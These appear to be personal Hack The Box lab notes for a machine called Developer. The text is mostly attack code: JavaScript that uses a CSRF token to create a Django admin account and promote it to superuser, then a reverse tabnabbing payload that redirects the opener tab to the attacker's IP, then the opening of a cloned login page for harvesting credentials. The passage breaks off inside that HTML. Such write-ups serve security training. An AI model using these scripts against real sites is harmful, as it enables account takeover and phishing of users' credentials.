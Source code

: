 ```js
xhr.open("POST", 'http://developer.htb/admin/auth/user/add/ ', true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");
xhr.send("csrfmiddlewaretoken="+csrf+"&username=sec123&password1=hackthebox&password2=hackthebox&_save=Save");
xhr.onload = function () {

	// Step3 Update the user
  var phr = new XMLHttpRequest();
  phr.open("POST", xhr.responseURL, true);
  phr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");
	phr.send("csrfmiddlewaretoken="+csrf+"&username=sec123&first_name=&last_name=&email=&is_active=on&is_superuser=on&is_staff=on&last_login_0=&last_login_1=&date_joined_0=2021-10-28&date_joined_1=22%3A06%3A03&initial-date_joined_0=2021-10-28&initial-date_joined_1=22%3A06%3A03&_save=Save");

};
```

to test this it is a good practice is to setup a own django site (the admin panel is default)

![[docs/Pasted image 20211029211453.png]]

--> Problem we have no admin password, so we cant get further with this way

# the intended way (reverse tabnabbing)

https://blog.0xprashant.in/posts/htb-bug/

[[../../../OWASP and Web Attacks/Reverse Tabnabbing]]


![[docs/Pasted image 20211031011627.png]]


so we create a write up with the following payload

```html
<html>
 <body>
  <script>
   if (window.opener) {
      window.opener.location = "http://10.10.14.227/accounts/login/";
   }
  </script>
 </body>
</html>

```

then we clone the account portal (not the django portal!) as index.html
and edit the links to development.htb host to get them working

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="http://developer.htb/img/favicon.ico">
    <link rel="stylesheet" href="http://developer.htb/static/css/jquery.toasts.css">
    <script src="http://developer.htb/static/js/all.min.js"></script>
    <script src="http://developer.htb/static/js/jquery-3.2.1.min.js"></script>
    <title>Login | Developer.HTB</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="http://developer.htb/static/css/bootstrap.min.css">
```